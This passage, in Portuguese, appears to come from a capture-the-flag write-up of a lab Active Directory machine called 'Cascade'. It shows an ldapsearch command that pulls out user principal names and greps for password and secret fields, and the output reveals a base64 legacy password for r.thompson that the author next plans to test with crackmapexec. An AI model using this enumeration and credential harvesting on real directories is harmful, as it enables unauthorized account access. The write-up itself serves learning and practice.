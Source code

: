 Nenhum usuário é AS-REP Roastable... Next!

## LDAPSearch

O ldapsearch é uma ferramenta que pode extrair toda a informação de todos os objectos extraíveis por LDAP, que é um protocolo de aplicação para acessar e manter serviços de informações de diretório. É por aí que, por exemplo, uma administrador de domínio cria um novo usuário local de uma máquina onde ele não está... Podemos enumerar os usuários todos, grupos, quem pertence a "x" grupo... É também esse o protocolo pelo qual a ferramenta **_bloodhound-python_**, já usada em outras máquina, extrai toda a informação para gerar o gráfico do bloodhound.

```bash
ldapsearch -x -h 10.10.10.182 -b "dc=cascade,dc=local" | grep "@cascade.local" -A 25 | grep -Ei "userPrincipalName|pass|pwd|cred|secret"

#>  userPrincipalName: CascGuest@cascade.local
#>  userPrincipalName: arksvc@cascade.local
#>  userPrincipalName: s.smith@cascade.local
#>  userPrincipalName: r.thompson@cascade.local
#>  cascadeLegacyPwd: clk0bjVldmE=
#>  userPrincipalName: util@cascade.local
#>  userPrincipalName: j.wakefield@cascade.local
#>  userPrincipalName: s.hickson@cascade.local
#>  userPrincipalName: j.goodhand@cascade.local
#>  userPrincipalName: a.turnbull@cascade.local
#>  userPrincipalName: e.crowe@cascade.local
#>  userPrincipalName: b.hanson@cascade.local
#>  userPrincipalName: d.burman@cascade.local
#>  userPrincipalName: BackupSvc@cascade.local
#>  userPrincipalName: j.allen@cascade.local
#>  userPrincipalName: i.croft@cascade.local
```

Temos de novo todos os usuários, mas também temos uma informação bonus! Uma palavra passe =)

> r.thompson:clk0bjVldmE=

Vamos validar a palavra passe com crackmapexec!
